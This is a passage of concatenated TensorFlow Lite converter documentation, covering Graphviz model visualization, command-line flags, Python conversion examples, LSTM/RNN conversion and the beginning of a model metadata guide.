with a good ability to pan and zoom across a very large page. Google Chrome does
well in that respect.

```
google-chrome /tmp/foo.dot.pdf
```

Sample output files can be seen here below. Note that it is the same
`AveragePool` node in the top right of each image.

<table><tr>
  <td>
    <a target="_blank" href="https://storage.googleapis.com/download.tensorflow.org/example_images/toco_AT_IMPORT.dot.pdf">
      
    </a>
  </td>
  <td>
    <a target="_blank" href="https://storage.googleapis.com/download.tensorflow.org/example_images/toco_AFTER_TRANSFORMATIONS.dot.pdf">
      
    </a>
  </td>
</tr>
<tr><td>before</td><td>after</td></tr>
</table>

### Using `--output_format=GRAPHVIZ_DOT` <a name="using_output_format_graphviz_dot"></a>

*Note: This only works when you set flag `experimental_new_converter=False`.
Also, as this format leads to loss of TFLite specific transformations, we
recommend that you use `--dump_graphviz_dir` instead to get a final
visualization with all graph transformations.*

The second way to get a Graphviz rendering is to pass `GRAPHVIZ_DOT` into
`--output_format`. This results in a plausible visualization of the model. This
reduces the requirements that exist during conversion from a TensorFlow GraphDef
to a TensorFlow Lite model. This may be useful if the conversion to TFLite is
failing.

```
tflite_convert \
  --experimental_new_converter=False
  --graph_def_file=/tmp/mobilenet_v1_0.50_128/frozen_graph.pb \
  --output_format=GRAPHVIZ_DOT \
  --output_file=/tmp/foo.dot \
  --output_format=GRAPHVIZ_DOT \
  --input_arrays=input \
  --input_shape=1,128,128,3 \
  --output_arrays=MobilenetV1/Predictions/Reshape_1

```

The resulting `.dot` file can be rendered into a PDF as follows:

```
dot -Tpdf /tmp/foo.dot -O
```

And the resulting `.dot.pdf` can be viewed in any PDF viewer, but we suggest one
with a good ability to pan and zoom across a very large page. Google Chrome does
well in that respect.

```
google-chrome /tmp/foo.dot.pdf
```

### Video logging

When `--dump_graphviz_dir` is used, one may additionally pass
`--dump_graphviz_video`. This causes a model visualization to be dumped after
each individual model transformation, resulting in thousands of files.
Typically, one would then bisect into these files to understand when a given
change was introduced in the model.

### Legend for the Visualizations <a name="graphviz_legend"></a>

*   Operators are red square boxes with the following hues of red:
    *   Most operators are
        <span style="background-color:#db4437;color:white;border:1px;border-style:solid;border-color:black;padding:1px">bright
        red</span>.
    *   Some typically heavy operators (e.g. Conv) are rendered in a
        <span style="background-color:#c53929;color:white;border:1px;border-style:solid;border-color:black;padding:1px">darker
        red</span>.
*   Arrays are octagons with the following colors:
    *   Constant arrays are
        <span style="background-color:#4285f4;color:white;border:1px;border-style:solid;border-color:black;padding:1px">blue</span>.
    *   Activation arrays are gray:
        *   Internal (intermediate) activation arrays are
            <span style="background-color:#f5f5f5;border:1px;border-style:solid;border-color:black;border:1px;border-style:solid;border-color:black;padding:1px">light
            gray</span>.
        *   Those activation arrays that are designated as `--input_arrays` or
            `--output_arrays` are
            <span style="background-color:#9e9e9e;border:1px;border-style:solid;border-color:black;padding:1px">dark
            gray</span>.
    *   RNN state arrays are green. Because of the way that the converter
        represents RNN back-edges explicitly, each RNN state is represented by a
        pair of green arrays:
        *   The activation array that is the source of the RNN back-edge (i.e.
            whose contents are copied into the RNN state array after having been
            computed) is
            <span style="background-color:#b7e1cd;border:1px;border-style:solid;border-color:black;padding:1px">light
            green</span>.
        *   The actual RNN state array is
            <span style="background-color:#0f9d58;color:white;border:1px;border-style:solid;border-color:black;padding:1px">dark
            green</span>. It is the destination of the RNN back-edge updating
            it.
# TensorFlow Lite converter

The TensorFlow Lite converter takes a TensorFlow model and generates a
TensorFlow Lite model, which is an optimized
[FlatBuffer](https://google.github.io/flatbuffers/) (identified by the `.tflite`
file extension).

Note: This page contains documentation on the converter API for TensorFlow 1.x.
The API for TensorFlow 2.0 is available
[here](https://www.tensorflow.org/lite/convert/).

## Options

The TensorFlow Lite Converter can be used in two ways:

*   [Python API](python_api.md) (**recommended**): Using the Python API makes it
    easier to convert models as part of a model development pipeline and helps
    mitigate compatibility issues early on.
*   [Command line](cmdline_examples.md)

## Workflow

### Why use the 'FlatBuffer' format?

FlatBuffer is an efficient open-source cross-platform serialization library. It
is similar to [protocol buffers](https://developers.google.com/protocol-buffers)
used in the TensorFlow model format, with the distinction that FlatBuffers do
not need a parsing/unpacking step to a secondary representation before data can
be accessed, avoiding per-object memory allocation. The code footprint of
FlatBuffers is an order of magnitude smaller than protocol buffers.

### Convert the model

The converter supports the following input formats:

*   [SavedModels](https://www.tensorflow.org/guide/saved_model#using_savedmodel_with_estimators)
*   `tf.keras` H5 models.
*   Frozen `GraphDef` models generated using
    [freeze_graph.py](https://www.tensorflow.org/code/tensorflow/python/tools/freeze_graph.py).
*   `tf.Session` models (Python API only).

### Run inference

The TensorFlow Lite model is then deployed to a client device, and the
TensorFlow Lite interpreter uses the compressed model for on-device inference.
This conversion process is shown in the diagram below:


# Converter command line reference

This page is complete reference of command-line flags used by the TensorFlow
Lite Converter's command line tool.

## High-level flags

The following high level flags specify the details of the input and output
files. The flag `--output_file` is always required. Additionally, either
`--saved_model_dir`, `--keras_model_file` or `--graph_def_file` is required.

*   `--output_file`. Type: string. Specifies the full path of the output file.
*   `--saved_model_dir`. Type: string. Specifies the full path to the directory
    containing the SavedModel.
*   `--keras_model_file`. Type: string. Specifies the full path of the HDF5 file
    containing the tf.keras model.
*   `--graph_def_file`. Type: string. Specifies the full path of the input
    GraphDef file frozen using
    [freeze_graph.py](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/python/tools/freeze_graph.py).
*   `--output_format`. Type: string. Default: `TFLITE`. Specifies the format of
    the output file. Allowed values:
    *   `TFLITE`: TensorFlow Lite model format.
    *   `GRAPHVIZ_DOT`: GraphViz `.dot` format containing a visualization of the
        graph after graph transformations. *Note: This only works when you set
        flag `experimental_new_converter=False`. Also, as this format leads to
        loss of TFLite specific transformations, we recommend that you use
        `--dump_graphviz_dir` instead to get a final visualization with all
        graph transformations.*
*   `--experimental_new_converter`. Type: bool. Default: True (from TF 2.2). To
    leverage MLIR-based conversion, Google's cutting edge compiler technology
    for machine learning. This enables conversion of new classes of models,
    including Mask R-CNN, Mobile BERT, etc and supports models with functional
    control flow.

The following flags specify optional parameters when using SavedModels.

*   `--saved_model_tag_set`. Type: string. Default: "serve" (for more options,
    refer to
    [tag_constants.h](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/cc/saved_model/tag_constants.h)).
    Specifies a comma-separated set of tags identifying the MetaGraphDef within
    the SavedModel to analyze. All tags in the tag set must be specified.
*   `--saved_model_signature_key`. Type: string. Default: "serving_default" (for
    more options, refer to
    [tf.compat.v1.saved_model.signature_constants](https://www.tensorflow.org/api_docs/python/tf/compat/v1/saved_model/signature_constants)).
    Specifies the key identifying the SignatureDef containing inputs and
    outputs.

## Model flags

*Model flags* provide additional information about the model stored in the input
file.

*   `--input_arrays`. Type: comma-separated list of strings. Specifies the list
    of names of input tensors.
*   `--output_arrays`. Type: comma-separated list of strings. Specifies the list
    of names of output tensors.

The following flags define properties of the input tensors. Each item in the
`--input_arrays` flag should correspond to each item in the following flags
based on index.

*   `--input_shapes`. Type: colon-separated list of comma-separated lists of
    integers. Each comma-separated list of integers gives the shape of one of
    the input arrays.
    *   Example: `--input_shapes=1,60,80,3` for a typical vision model means a
        batch size of 1, an input image height of 60, an input image width of
        80, and an input image depth of 3 (representing RGB channels).
    *   Example: `--input_arrays=foo,bar --input_shapes=2,3:4,5,6` means "foo"
        has a shape of [2, 3] and "bar" has a shape of [4, 5, 6].
*   `--std_dev_values`, `--mean_values`. Type: comma-separated list of floats.
    These specify the (de-)quantization parameters of the input array, when it
    is quantized. Only needed if `inference_input_type` is `INT8` or `UINT8`.
    *   The meaning of `mean_values` and `std_dev_values` is as follows: each
        quantized value in the quantized input array will be interpreted as a
        mathematical real number (i.e. as an input activation value) according
        to the following formula:
        *   `real_value = (quantized_value - mean_value) / std_dev_value`.
    *   When performing float inference (`--inference_type=FLOAT`) on a
        quantized input, the quantized input would be immediately dequantized by
        the inference code according to the above formula, before proceeding
        with float inference.
    *   When performing quantized inference (`inference_type` is `INT8` or
        `UINT8`), no dequantization is performed by the inference code. However,
        the quantization parameters of all arrays, including those of the input
        arrays as specified by `mean_value` and `std_dev_value`, determine the
        fixed-point multipliers used in the quantized inference code.The
        `mean_value` must be an integer when performing quantized inference.

## Transformation flags

*Transformation flags* specify options of the transformations to be applied to
the graph, i.e. they specify requested properties that the output file should
have.

*   `--inference_type`. Type: string. Default: `FLOAT`. Data type of all
    real-number arrays in the output file except for input arrays (defined by
    `--inference_input_type`). Must be `{FLOAT, INT8, UINT8}`.

    This flag only impacts real-number arrays including float and quantized
    arrays. This excludes all other data types including plain integer arrays
    and string arrays. Specifically:

    *   If `FLOAT`, then real-numbers arrays will be of type float in the output
        file. If they were quantized in the input file, then they get
        dequantized.
    *   If `INT8`, then real-numbers arrays will be quantized as int8 in the
        output file. If they were float in the input file, then they get
        quantized.
    *   If `UINT8`, then real-numbers arrays will be quantized as uint8 in the
        output file. If they were float in the input file, then they get
        quantized.

*   `--inference_input_type`. Type: string. Data type of a real-number input
    array in the output file. By default the `--inference_type` is used as type
    of all of the input arrays. Flag is primarily intended for generating a
    float-point graph with a quantized input array. A Dequantized operator is
    added immediately after the input array. Must be `{FLOAT, INT8, UINT8}`.

    The flag is typically used for vision models taking a bitmap as input but
    requiring floating-point inference. For such image models, the uint8 input
    is quantized and the quantization parameters used for such input arrays are
    their `mean_value` and `std_dev_value` parameters.

*   `--default_ranges_min`, `--default_ranges_max`. Type: floating-point.
    Default value for the (min, max) range values used for all arrays without a
    specified range. Allows user to proceed with quantization of non-quantized
    or incorrectly-quantized input files. These flags produce models with low
    accuracy. They are intended for easy experimentation with quantization via
    "dummy quantization".

*   `--post_training_quantize`. Type: boolean. Default: False. Boolean
    indicating whether to quantize the weights of the converted float model.
    Model size will be reduced and there will be latency improvements (at the
    cost of accuracy).

*   `--quantize_to_float16`. Type: boolean. Default: False. Boolean indicating
    whether to quantize weights to fp16 instead of the default int8 when
    `--post_training_quantize=True`.

*   `--reorder_across_fake_quant`. Type: boolean. Default: False. Indicates
    whether to reorder FakeQuant nodes in unexpected locations. Used when the
    location of the FakeQuant nodes is preventing graph transformations
    necessary to convert the graph. Results in a graph that differs from the
    quantized training graph, potentially causing differing arithmetic behavior.

*   `--change_concat_input_ranges`. Type: boolean. Default: False. Boolean to
    change behavior of min/max ranges for inputs and outputs of the concat
    operator for quantized models. Changes the ranges of concat operator overlap
    when true.

*   `--drop_control_dependency`. Type: boolean. Default: True. Indicates whether
    to drop control dependencies silently. This is due to TensorFlow Lite not
    supporting control dependencies.

*   `--target_ops`. Type: string. Default: TFLITE_BUILTINS. Experimental flag,
    subject to change. Set of OpsSet options indicating which converter to use.
    Options: TF LITE_BUILTINS,SELECT_TF_OPS,TFLITE_BUILTINS_INT8,EXPER
    IMENTAL_TFLITE_BUILTINS_ACTIVATIONS_INT16_WEIGHTS_INT8 . One or more option
    may be specified.

*   `--allow_custom_ops`. Type: bool. Default: False. Indicates whether to allow
    custom operations. When False, any unknown operation is an error. When True,
    custom ops are created for any op that is unknown. The developer will need
    to provide these to the TensorFlow Lite runtime with a custom resolver.

*   `--custom_opdefs`. Type: string. String representing a list of custom ops
    OpDefs delineated with commas that are included in the GraphDef. Required
    when using custom operations with `--experimental_new_converter`.

## Logging flags

The following flags generate graph visualizations of the graph as
[GraphViz](https://www.graphviz.org/) `.dot` files at various points during
graph transformations:

*   `--dump_graphviz_dir`. Type: string. Specifies the full path of the
    directory to output GraphViz `.dot` files. Outputs the graph immediately
    after reading in the graph and after all of the transformations have been
    completed.
*   `--dump_graphviz_video`. Type: boolean. Outputs GraphViz after every graph
    transformation. Requires `--dump_graphviz_dir` to be specified.

The following flag controls generating the conversion logs. The conversion log
includes a protocol buffer of analytics collected during conversion, and an HTML
file where user can preview the conversion summary.

*   `--conversion_summary_dir`. Type: string. Specifies the full path of the
    directory to output conversion logs.
# Converter Python API guide

This page describes how to convert TensorFlow models into the TensorFlow Lite
format using the
[`tf.compat.v1.lite.TFLiteConverter`](https://www.tensorflow.org/api_docs/python/tf/compat/v1/lite/TFLiteConverter)
Python API. It provides the following class methods based on the original format
of the model:

*   `tf.compat.v1.lite.TFLiteConverter.from_saved_model()`: Converts a
    [SavedModel](https://www.tensorflow.org/guide/saved_model).
*   `tf.compat.v1.lite.TFLiteConverter.from_keras_model_file()`: Converts a
    [Keras](https://www.tensorflow.org/guide/keras/overview) model file.
*   `tf.compat.v1.lite.TFLiteConverter.from_session()`: Converts a GraphDef from
    a session.
*   `tf.compat.v1.lite.TFLiteConverter.from_frozen_graph()`: Converts a Frozen
    GraphDef from a file. If you have checkpoints, then first convert it to a
    Frozen GraphDef file and then use this API as shown [here](#checkpoints).

In the following sections, we discuss [basic examples](#basic) and
[complex examples](#complex).

## Basic examples <a name="basic"></a>

The following section shows examples of how to convert a basic model from each
of the supported model formats into a TensorFlow Lite model.

### Convert a SavedModel <a name="basic_savedmodel"></a>

The following example shows how to convert a
[SavedModel](https://www.tensorflow.org/guide/saved_model) into a TensorFlow
Lite model.

```python
import tensorflow as tf

# Convert the model.
converter = tf.compat.v1.lite.TFLiteConverter.from_saved_model(saved_model_dir)
tflite_model = converter.convert()

# Save the model.
with open('model.tflite', 'wb') as f:
  f.write(tflite_model)
```

### Convert a Keras model file <a name="basic_keras_file"></a>

The following example shows how to convert a
[Keras](https://www.tensorflow.org/guide/keras/overview) model file into a
TensorFlow Lite model.

```python
import tensorflow as tf

# Convert the model.
converter = tf.compat.v1.lite.TFLiteConverter.from_keras_model_file('keras_model.h5')
tflite_model = converter.convert()

# Save the model.
with open('model.tflite', 'wb') as f:
  f.write(tflite_model)
```

The Keras file contains both the model and the weights. A comprehensive example
is given below.

```python
import numpy as np
import tensorflow as tf

# Generate tf.keras model.
model = tf.keras.models.Sequential()
model.add(tf.keras.layers.Dense(2, input_shape=(3,)))
model.add(tf.keras.layers.RepeatVector(3))
model.add(tf.keras.layers.TimeDistributed(tf.keras.layers.Dense(3)))
model.compile(loss=tf.keras.losses.MSE,
              optimizer=tf.keras.optimizers.RMSprop(lr=0.0001),
              metrics=[tf.keras.metrics.categorical_accuracy],
              sample_weight_mode='temporal')

x = np.random.random((1, 3))
y = np.random.random((1, 3, 3))
model.train_on_batch(x, y)
model.predict(x)

# Save tf.keras model in H5 format.
keras_file = 'keras_model.h5'
tf.keras.models.save_model(model, keras_file)

# Convert the model.
converter = tf.compat.v1.lite.TFLiteConverter.from_keras_model_file(keras_file)
tflite_model = converter.convert()

# Save the model.
with open('model.tflite', 'wb') as f:
  f.write(tflite_model)
```

### Convert a GraphDef from a session <a name="basic_graphdef_sess"></a>

The following example shows how to convert a GraphDef from a `tf.Session` object
into a TensorFlow Lite model .

```python
import tensorflow as tf

img = tf.placeholder(name='img', dtype=tf.float32, shape=(1, 64, 64, 3))
var = tf.get_variable('weights', dtype=tf.float32, shape=(1, 64, 64, 3))
val = img + var
out = tf.identity(val, name='out')

with tf.Session() as sess:
  sess.run(tf.global_variables_initializer())

  # Convert the model.
  converter = tf.compat.v1.lite.TFLiteConverter.from_session(sess, [img], [out])
  tflite_model = converter.convert()

  # Save the model.
  with open('model.tflite', 'wb') as f:
    f.write(tflite_model)
```

### Convert a Frozen GraphDef from file <a name="basic_graphdef_file"></a>

The following example shows how to convert a Frozen GraphDef (or a frozen
graph), usually generated using the
[freeze_graph.py](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/python/tools/freeze_graph.py)
script, into a TensorFlow Lite model.

The example uses
[Mobilenet_1.0_224](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_1.0_224_frozen.tgz).

```python
import tensorflow as tf

# Convert the model.
converter = tf.compat.v1.lite.TFLiteConverter.from_frozen_graph(
    graph_def_file='/path/to/mobilenet_v1_1.0_224/frozen_graph.pb',
                    # both `.pb` and `.pbtxt` files are accepted.
    input_arrays=['input'],
    input_shapes={'input' : [1, 224, 224,3]},
    output_arrays=['MobilenetV1/Predictions/Softmax']
)
tflite_model = converter.convert()

# Save the model.
with open('model.tflite', 'wb') as f:
  f.write(tflite_model)
```

#### Convert checkpoints <a name="checkpoints"></a>

1.  Convert checkpoints to a Frozen GraphDef as follows
    (*[reference](https://laid.delanover.com/how-to-freeze-a-graph-in-tensorflow/)*):

    *   Install [bazel](https://docs.bazel.build/versions/master/install.html)
    *   Clone the TensorFlow repository: `git clone
        https://github.com/tensorflow/tensorflow.git`
    *   Build freeze graph tool: `bazel build
        tensorflow/python/tools:freeze_graph`
        *   The directory from which you run this should contain a file named
            'WORKSPACE'.
        *   If you're running on Ubuntu 16.04 OS and face issues, update the
            command to `bazel build -c opt --copt=-msse4.1 --copt=-msse4.2
            tensorflow/python/tools:freeze_graph`
    *   Run freeze graph tool: `bazel run tensorflow/python/tools:freeze_graph
        --input_graph=/path/to/graph.pbtxt --input_binary=false
        --input_checkpoint=/path/to/model.ckpt-00010
        --output_graph=/path/to/frozen_graph.pb
        --output_node_names=name1,name2.....`
        *   If you have an input `*.pb` file instead of `*.pbtxt`, then replace
            `--input_graph=/path/to/graph.pbtxt --input_binary=false` with
            `--input_graph=/path/to/graph.pb`
        *   You can find the output names by exploring the graph using
            [Netron](https://github.com/lutzroeder/netron) or
            [summarize graph tool](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/tools/graph_transforms#inspecting-graphs).

2.  Now [convert the Frozen GraphDef file](#basic_graphdef_file) to a TensorFlow
    Lite model as shown in the example above.

## Complex examples <a name="complex"></a>

For models where the default value of the attributes is not sufficient, the
attribute's values should be set before calling `convert()`. Run
`help(tf.compat.v1.lite.TFLiteConverter)` in the Python terminal for detailed
documentation on the attributes.

### Convert a quantize aware trained model <a name="complex_quant"></a>

The following example shows how to convert a quantize aware trained model into a
TensorFlow Lite model.

The example uses
[Mobilenet_1.0_224](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_1.0_224_frozen.tgz).

```python
import tensorflow as tf

# Convert the model.
converter = tf.compat.v1.lite.TFLiteConverter.from_frozen_graph(
    graph_def_file='/path/to/mobilenet_v1_1.0_224/frozen_graph.pb',
    input_arrays=['input'],
    input_shapes={'input' : [1, 224, 224,3]},
    output_arrays=['MobilenetV1/Predictions/Softmax'],
)
converter.quantized_input_stats = {'input' : (0., 1.)}  # mean, std_dev (input range is [-1, 1])
converter.inference_type = tf.int8 # this is the recommended type.
# converter.inference_input_type=tf.uint8 # optional
# converter.inference_output_type=tf.uint8 # optional
tflite_model = converter.convert()

# Save the model.
with open('quantized_model.tflite', 'wb') as f:
  f.write(tflite_model)
```

## Convert models from TensorFlow 1.12 <a name="pre_tensorflow_1.12"></a>

Reference the following table to convert TensorFlow models to TensorFlow Lite in
and before TensorFlow 1.12. Run `help()` to get details of each API.

TensorFlow Version | Python API
------------------ | ---------------------------------
1.12               | `tf.contrib.lite.TFLiteConverter`
1.9-1.11           | `tf.contrib.lite.TocoConverter`
1.7-1.8            | `tf.contrib.lite.toco_convert`
# TensorFlow RNN conversion to TensorFlow Lite

## Overview

TensorFlow Lite supports converting TensorFlow RNN models to TensorFlow Lite’s
fused LSTM operations. Fused operations exist to maximize the performance of
their underlying kernel implementations, as well as provide a higher level
interface to define complex transformations like quantizatization.

Since there are many variants of RNN APIs in TensorFlow, our approach has been
two fold:

1.  Provide **native support for standard TensorFlow RNN APIs** like Keras LSTM.
    This is the recommended option.
1.  Provide an **interface** **into the conversion infrastructure for**
    **user-defined** **RNN implementations** to plug in and get converted to
    TensorFlow Lite. We provide a couple of out of box examples of such
    conversion using lingvo’s
    [LSTMCellSimple](https://github.com/tensorflow/tensorflow/blob/82abf0dbf316526cd718ae8cd7b11cfcb805805e/tensorflow/compiler/mlir/lite/transforms/prepare_composite_functions_tf.cc#L130)
    and
    [LayerNormalizedLSTMCellSimple](https://github.com/tensorflow/tensorflow/blob/c11d5d8881fd927165eeb09fd524a80ebaf009f2/tensorflow/compiler/mlir/lite/transforms/prepare_composite_functions_tf.cc#L137)
    RNN interfaces.

## Converter API

The feature is part of TensorFlow 2.3 release. It is also available through the
[tf-nightly](https://pypi.org/project/tf-nightly/) pip or from head.

This conversion functionality is available when converting to TensorFlow Lite
via a SavedModel or from the Keras model directly. See example usages.

### From saved model

<a id="from_saved_model"></a>

```
# build a saved model. Here concrete_function is the exported function
# corresponding to the TensorFlow model containing one or more
# Keras LSTM layers.
saved_model, saved_model_dir = build_saved_model_lstm(...)
saved_model.save(saved_model_dir, save_format="tf", signatures=concrete_func)

# Convert the model.
converter = TFLiteConverter.from_saved_model(saved_model_dir)
tflite_model = converter.convert()
```

### From Keras model

```
# build a Keras model
keras_model = build_keras_lstm(...)

# Convert the model.
converter = TFLiteConverter.from_keras_model(keras_model)
tflite_model = converter.convert()

```

## Example

Keras LSTM to TensorFlow Lite
[Colab](https://colab.research.google.com/github/tensorflow/tensorflow/blob/master/tensorflow/lite/examples/experimental_new_converter/Keras_LSTM_fusion_Codelab.ipynb)
illustrates the end to end usage with the TensorFlow Lite interpreter.

## TensorFlow RNNs APIs supported

<a id="rnn_apis"></a>

### Keras LSTM conversion (recommended)

We support out-of-the-box conversion of Keras LSTM to TensorFlow Lite. For
details on how this works please refer to the
[Keras LSTM interface](https://github.com/tensorflow/tensorflow/blob/35a3ab91b42503776f428bda574b74b9a99cd110/tensorflow/python/keras/layers/recurrent_v2.py#L1238)<span style="text-decoration:space;">
</span>and to the conversion logic
[here](https://github.com/tensorflow/tensorflow/blob/35a3ab91b42503776f428bda574b74b9a99cd110/tensorflow/compiler/mlir/lite/utils/lstm_utils.cc#L627).

Also important is to highlight the TensorFlow Lite’s LSTM contract with respect
to the Keras operation definition:

1.  The dimension 0 of the **input** tensor is the batch size.
1.  The dimension 0 of the **recurrent\_weight** tensor is the number of
    outputs.
1.  The **weight** and **recurrent\_kernel** tensors are transposed.
1.  The transposed weight, transposed recurrent\_kernel and **bias** tensors are
    split into 4 equal sized tensors along the dimension 0. These correspond to
    **input gate, forget gate, cell, and output gate**.


#### Keras LSTM Variants

##### Time major

Users may choose time-major or no time-major. Keras LSTM adds a time-major
attribute in the function def attributes. For Unidirectional sequence LSTM, we
can simply map to unidirecional\_sequence\_lstm's
[time major attribute](https://github.com/tensorflow/tensorflow/blob/35a3ab91b42503776f428bda574b74b9a99cd110/tensorflow/compiler/mlir/lite/ir/tfl_ops.td#L3902).

##### BiDirectional LSTM

Bidirectional LSTM can be implemented with two Keras LSTM layers, one for
forward and one for backward, see examples
[here](https://github.com/tensorflow/tensorflow/blob/35a3ab91b42503776f428bda574b74b9a99cd110/tensorflow/python/keras/layers/wrappers.py#L382).
Once we see the go\_backward attribute, we recognize it as backward LSTM, then
we group forward & backward LSTM together. **This is future work.** Currently,
this creates two UnidirectionalSequenceLSTM operations in the TensorFlow Lite
model.

### User-defined LSTM conversion examples

TensorFlow Lite also provides a way to convert user defined LSTM
implementations. Here we use Lingvo’s LSTM as an example of how that can be
implemented. For details please refer to the
[lingvo.LSTMCellSimple interface](https://github.com/tensorflow/lingvo/blob/91a4609dbc2579748a95110eda59c66d17c594c5/lingvo/core/rnn_cell.py#L228)
and the conversion logic
[here](https://github.com/tensorflow/tensorflow/blob/82abf0dbf316526cd718ae8cd7b11cfcb805805e/tensorflow/compiler/mlir/lite/transforms/prepare_composite_functions_tf.cc#L130).
We also provide an example for another of Lingvo’s LSTM definitions in
[lingvo.LayerNormalizedLSTMCellSimple interface](https://github.com/tensorflow/lingvo/blob/91a4609dbc2579748a95110eda59c66d17c594c5/lingvo/core/rnn_cell.py#L1173)
and its convertion logic
[here](https://github.com/tensorflow/tensorflow/blob/c11d5d8881fd927165eeb09fd524a80ebaf009f2/tensorflow/compiler/mlir/lite/transforms/prepare_composite_functions_tf.cc#L137).

## “Bring your own TensorFlow RNN” to TensorFlow Lite

If a user's RNN interface is different from the standard supported ones, there
are a couple of options:

**Option 1:** Write adapter code in TensorFlow python to adapt the RNN interface
to the Keras RNN interface. This means a tf.function with
[tf\_implements annotation](https://github.com/tensorflow/community/pull/113) on
the generated RNN interface’s function that is identical to the one generated by
the Keras LSTM layer. After this, the same conversion API used for Keras LSTM
will work.

**Option 2:** If the above is not possible (e.g. the Keras LSTM is missing some
functionality that is currently exposed by TensorFlow Lite’s fused LSTM op like
layer normalization), then extend the TensorFlow Lite converter by writing
custom conversion code and plug it into the prepare-composite-functions
MLIR-pass
[here](https://github.com/tensorflow/tensorflow/blob/c11d5d8881fd927165eeb09fd524a80ebaf009f2/tensorflow/compiler/mlir/lite/transforms/prepare_composite_functions_tf.cc#L115).
The function’s interface should be treated like an API contract and should
contain the arguments needed to convert to fused TensorFlow Lite LSTM
operations - i.e. input, bias, weights, projection, layer normalization, etc. It
is preferable for the tensors passed as arguments to this function to have known
rank (i.e. RankedTensorType in MLIR). This makes it much easier to write
conversion code that can assume these tensors as RankedTensorType and helps
transform them to ranked tensors corresponding to the fused TensorFlow Lite
operator’s operands.

A complete example of such conversion flow is Lingvo’s LSTMCellSimple to
TensorFlow Lite conversion.

The LSTMCellSimple in Lingvo is defined
[here](https://github.com/tensorflow/lingvo/blob/91a4609dbc2579748a95110eda59c66d17c594c5/lingvo/core/rnn_cell.py#L228).
Models trained with this LSTM cell can be converted to TensorFlow Lite as
follows:

1.  Wrap all uses of LSTMCellSimple in a tf.function with a tf\_implements
    annotation that is labelled as such (e.g. lingvo.LSTMCellSimple would be a
    good annotation name here). Make sure the tf.function that is generated
    matches the interface of the function expected in the conversion code. This
    is a contract between the model author adding the annotation and the
    conversion code.
1.  Extend the prepare-composite-functions pass to plug in a custom composite op
    to TensorFlow Lite fused LSTM op conversion. See
    [LSTMCellSimple](https://github.com/tensorflow/tensorflow/blob/82abf0dbf316526cd718ae8cd7b11cfcb805805e/tensorflow/compiler/mlir/lite/transforms/prepare_composite_functions_tf.cc#L130)
    conversion code.

    The conversion contract:

1.  **Weight** and **projection** tensors are transposed.

1.  The **{input, recurrent}** to **{cell, input gate, forget gate, output
    gate}** are extracted by slicing the transposed weight tensor.

1.  The **{bias}** to **{cell, input gate, forget gate, output gate}** are
    extracted by slicing the bias tensor.

1.  The **projection** is extracted by slicing the transposed projection tensor.

1.  Similar conversion is written for
    [LayerNormalizedLSTMCellSimple](https://github.com/tensorflow/tensorflow/blob/c11d5d8881fd927165eeb09fd524a80ebaf009f2/tensorflow/compiler/mlir/lite/transforms/prepare_composite_functions_tf.cc#L137).

1.  The rest of the TensorFlow Lite conversion infrastructure, including all the
    [MLIR passes](https://github.com/tensorflow/tensorflow/blob/35a3ab91b42503776f428bda574b74b9a99cd110/tensorflow/compiler/mlir/lite/tf_tfl_passes.cc#L57)
    defined as well as the final export to TensorFlow Lite flatbuffer can be
    reused.

## Known issues/limitations

1.  Currently there is support only for converting stateless Keras LSTM (default
    behavior in Keras). Stateful Keras LSTM conversion is future work.
1.  It is still possible to model a stateful Keras LSTM layer using the
    underlying stateless Keras LSTM layer and managing the state explicitly in
    the user program. Such a TensorFlow program can still be converted to
    TensorFlow Lite using the feature being described here.
1.  Bidirectional LSTM is currently modelled as two UnidirectionalSequenceLSTM
    operations in TensorFlow Lite. This will be replaced with a single
    BidirectionalSequenceLSTM op.
# Adding metadata to TensorFlow Lite models

TensorFlow Lite metadata provides a standard for model descriptions. The
metadata is an important source of knowledge about what the model does and its
input / output information. The metadata consists of both

*   human readable parts which convey the best practice when using the model,
    and
*   machine readable parts that can be leveraged by code generators, such as the
    [TensorFlow Lite Android code generator](../inference_with_metadata/codegen.md#generate-code-with-tensorflow-lite-android-code-generator)
    and the
    [Android Studio ML Binding feature](../inference_with_metadata/codegen.md#generate-code-with-android-studio-ml-model-binding).

All image models published on
[TensorFlow Lite hosted models](https://www.tensorflow.org/lite/guide/hosted_models)
and [TensorFlow Hub](https://tfhub.dev/s?deployment-format=lite) have been
populated with metadata.

## Model with metadata format

<center></center>
<center>Figure 1. TFLite model with metadata and associated files.</center>

Model metadata is defined in
[metadata_schema.fbs](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/metadata/metadata_schema.fbs),
a
[FlatBuffer](https://google.github.io/flatbuffers/index.html#flatbuffers_overview)
file. As shown in Figure 1, it is stored in the
[metadata](https://github.com/tensorflow/tensorflow/blob/bd73701871af75539dd2f6d7fdba5660a8298caf/tensorflow/lite/schema/schema.fbs#L1208)
field of the
[TFLite model schema](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/schema/schema.fbs),
under the name, `"TFLITE_METADATA"`. Some models may come with associated files,
such as
[classification label files](https://github.com/tensorflow/examples/blob/dd98bc2b595157c03ac9fa47ac8659bb20aa8bbd/lite/examples/image_classification/android/models/src/main/assets/labels.txt#L1).
These files are concatenated to the end of the original model file as a ZIP
using the ZipFile
["append" mode](https://pymotw.com/2/zipfile/#appending-to-files) (`'a'` mode).
TFLite Interpreter can consume the new file format in the same way as before.
See [Pack the associated files](#pack-the-associated-files) for more
information.

See the instruction below about how to populate, visualize, and read metadata.

## Setup the metadata tools

Before adding metadata to your model, you will need to a Python programming
environment setup for running TensorFlow. There is a detailed guide on how to
set this up [here](https://www.tensorflow.org/install).

After setup the Python programming environment, you will need to install
additional tooling:

```sh
pip install tflite-support
```

TensorFlow Lite metadata tooling supports Python 3.

## Adding metadata using Flatbuffers Python API

Note: to create metadata for the popular ML tasks supported in
[TensorFlow Lite Task Library](../inference_with_metadata/task_library/overview),
use the high-level API in the
[TensorFlow Lite Metadata Writer Library](metadata_writer_tutorial.ipynb).

There are three parts to the model metadata in the
[schema](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/metadata/metadata_schema.fbs):

1.  **Model information** - Overall description of the model as well as items
    such as license terms. See
